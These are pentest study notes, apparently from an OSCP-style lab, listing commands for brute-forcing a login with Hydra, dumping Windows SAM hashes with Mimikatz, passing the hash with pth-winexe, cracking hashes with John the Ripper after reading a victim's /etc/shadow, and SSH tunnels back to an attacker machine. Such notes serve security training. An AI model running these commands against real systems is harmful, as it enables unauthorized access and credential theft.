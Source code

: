 		hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^ : INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou,txt -vV -f
Leveraging password hashes:
	Hash type identification: hashid blablabla
	Users" hashes:
		Linus: /etc/shadow
		Windows: SAM (Security Accounts Manager)
			LM hashes: not salted, weak and breakable with hash lookup attach
			NTLM hash: more secure, but still not salted
			The SAM database cannot be copied while the operating system is running. However, we can use Mimikatz against the lsass service:
				c:\tools\password_attacks\mimikatz.exe
				[mimikatz] privilege::debug
				[mimikatz] token::elevate
				[mimikatz] lsadump::sam
Passing the hash in Windows:
	Passing the hashes in Windows (i.e. authenticating on multiple systems/services with username/hash instead of username/password) is possible because LM and NTLM hashes are not salted and hashes remain static over time
	passing-the-hash toolkit performs authentication via the SMB protocol:
	pth-winexe -U username%blablablahash //10.11.0.22 cmd
	NTLM hashes are passed over the network in the form of Net-NTLM hashes
Windows password cracking:
	If hashes are NOT salted, cracking is possible
	If hashes are salted, cracking is very very difficult, if not impossible
	In many real world scenarios, it is possible to capture both salt values and hashes to pass to the cracking sotfware (i.e. John the Ripper)
	John the Ripper:
		Pure brute force of every possible password: john hash.txt --format=NT
		Using a wordlist: john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
		Using word mangling rules from /etc/john/john.conf: john --rules --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
Linux password cracking:
	sudo grep victim /etc/passwd > passwd-file.txt
	sudo grep victim /etc/shadow > shadow-file.txt
	unshadow passwd-file.txt shadow-file.txt > unshadowed-file.txt
	john --rules --wordlist=usr/share/wordlists/rockyou.txt unshadowed-file.txt

##### Port Redirection And Tuneling
Port forwarding with RINETD:
	sudo apt-get install rinetd
	sudo nano /etc/rinetd.conf
	Add the forwarding rules to redirect all incoming traffic on port 80 to google.com (IP 216.58.207.142) on port 80: 0.0.0.0 80 216.58.207.142 80
	sudo service rinetd restart
	ss -antp | grep "80"
SSH tunneling:
	SSH can create encrypted tunnels
	SSH local port forwarding: 
		It allows to tunnel a local port to a remote server using SSH as transport protocol, similarly to RINETD, with few twists
		On kali attacker machine: sudo ssh -N -L  [bind_address:]port:host:hostport [username@address]
		On kali attacker machine: sudo ssh -N -L 0.0.0.0:445:192.168.1.110:445 student@10.11.0.128
		On kali attacker machine: smbclient -L 127.0.0.1 -U Administrator
	SSH remote port forwarding:
		It is the reverse of local port forwarding, because a port is open on the remote side of the connection and traffic sent to that port is forwarded to a port on our local attacker machine, where we run ssh command
		On the debian client: sudo ssh -N -R [bind_address:]port:host:hostport [username@address]
		On the debian client: sudo ssh -N -R 10.11.0.4:2221:127.0.0.1:3396 kali@10.11.0.4
		On kali attacker machine: ss -antp | grep "2221"
		On kali attacker machine: sudo nmap -sS -sV 127.0.0.1 -p 2221
	SSH dynamic port forwarding: